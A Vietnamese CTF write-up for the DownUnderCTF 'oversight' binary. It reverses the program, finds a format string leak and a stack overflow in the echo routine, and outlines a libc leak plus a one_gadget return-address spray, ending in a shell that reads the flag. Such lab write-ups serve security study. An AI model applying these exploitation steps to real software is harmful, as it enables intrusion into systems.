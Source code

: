 # Phân tích file

```python
oversight: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=54a5270099fd4f21b907f0119cf6c9af55b61f74, for GNU/Linux 4.4.0, not stripped
```

```python
		Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# Reverse file

- Main
    
    ```python
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      setbuf(stdout, 0LL);
      puts("Lets play a game");
      wait();
      return 0;
    }
    ```
    
- Wait
    
    ```python
    __int64 wait()
    {
      unsigned int v0; // eax
      char s[5]; // [rsp+Bh] [rbp-85h] BYREF
      char format[120]; // [rsp+10h] [rbp-80h] BYREF
    
      puts("Press enter to continue");
      getc(stdin);
      printf("Pick a number: ");
      fgets(s, 5, stdin);
      v0 = strtol(s, 0LL, 10);
      snprintf(format, 0x64uLL, "Your magic number is: %%%d$llx\n", v0);
      printf(format);
      return introduce();
    }
    ```
    
    - Yêu cầu ta nhập 1 số rồi sau đó hàm strtol sẽ đưa về cơ số 10 sau đó printf(format) ⇒ format string bug.
- Introduce
    
    ```python
    int introduce()
    {
      puts("Are you ready to echo?");
      get_num_bytes();
      return puts("That was fun!");
    }
    ```
    
- get_num_bytes
    
    ```python
    int get_num_bytes()
    {
      unsigned int v0; // eax
      int result; // eax
      char s[13]; // [rsp+Bh] [rbp-15h] BYREF
    
      printf("How many bytes do you want to read (max 256)? ");
      fgets(s, 5, stdin);
      v0 = strtol(s, 0LL, 10);
      if ( v0 > 0x100 )
        result = puts("Don't break the rules!");
      else
        result = echo(v0);
      return result;
    }
    ```
    
    - Nhập size để read tối đa là 256 bytes.
- echo
    
    ```python
    __int64 __fastcall echo(unsigned int a1)
    {
      char v2[256]; // [rsp+0h] [rbp-100h] BYREF
    
      return echo_inner(v2, a1);
    ```
    
- echo_inner
    
    ```python
    int __fastcall echo_inner(_BYTE *a1, int a2)
    {
      a1[(int)fread(a1, 1uLL, a2, stdin)] = 0;
      puts("You said:");
      return printf("%s", a1);
    }
    ```
    

    

# Exploit

- Ta sẽ dùng bug fmt để leak libc và tính base và tính one_gadget. Sau đó control ret về one_gadget.
    
    ```python
    [*] base: 0x7f7cfd5d7000
    [*] one_gadget: 0x7f7cfd6263d5
    ```
    
- Tiếp đến ta cần control ret sau khi debug thì mình thấy bug ở get_num_bytes() nếu ta nhập size 256 và nhập "a"*256 thì ở leave ta thấy như sau.
    
    ```python
    RBP  0x7fffffffdf00 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
    RSP  0x7fffffffdf40 ◂— 0xff05df9b
    0x555555555351 <get_num_bytes+81>     leave
    ► 0x555555555352 <get_num_bytes+82>    ret    <0x6161616161616161>
    ```
    
- Ta có thể control được ret nhưng ret có thể nhảy các ô stack nên khó xác định vì thể mính để luôn payload là p64(one_gadget)*32 thì thế nào cũng ret về one_gadget cho mình.

```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] base: 0x7f7cfd5d7000
[*] one_gadget: 0x7f7cfd6263d5
[*] Switching to interactive mode
You said:
cb|$cat flag.txt
DUCTF{1_sm@LL_0ver5ight=0v3rFLOW}
```
